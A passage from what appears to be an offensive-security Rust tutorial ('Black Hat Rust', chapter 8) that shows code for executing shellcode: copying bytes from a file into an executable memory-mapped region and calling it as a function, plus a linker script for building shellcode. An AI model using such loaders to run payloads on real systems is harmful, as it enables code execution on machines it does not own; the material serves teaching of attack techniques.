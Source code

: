 ```rust
        unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
    exec_shellcode();
}
```


### Setting a memory-mapped area as executable

By using [mmap](https://man7.org/linux/man-pages/man2/mmap.2.html), we can set a buffer as executable and call it as if it were raw code.

```rust
use mmap::{
    MapOption::{MapExecutable, MapReadable, MapWritable},
    MemoryMap,
};
use std::mem;

// as the shellcode is not in the `.text` section but in `.rodata`, we can't execute it as it
const SHELLCODE: &[u8] = include_bytes!("../shellcode.bin");

fn main() {
    let map = MemoryMap::new(SHELLCODE.len(), &[MapReadable, MapWritable, MapExecutable]).unwrap();

    unsafe {
        // copy the shellcode to the memory map
        std::ptr::copy(SHELLCODE.as_ptr(), map.data(), SHELLCODE.len());
        let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.data());
        exec_shellcode();
    }
}
```


## Our linker script

Finally, to build a shellcode, we need to instruct the compiler (or, more precisely, the linker) what shape we want our binary to have.


**[ch_08/shellcode.ld](https://github.com/skerkour/black-hat-rust/blob/main/ch_08/shellcode.ld)**
```default
ENTRY(_start);

SECTIONS
{
    . = ALIGN(16);
    .text :
    {
        *(.text.prologue)
        *(.text)
        *(.rodata)
    }
    .data :
    {
        *(.data)
    }

    /DISCARD/ :
    {
        *(.interp)
        *(.comment)
        *(.debug_frame)
    }
}
```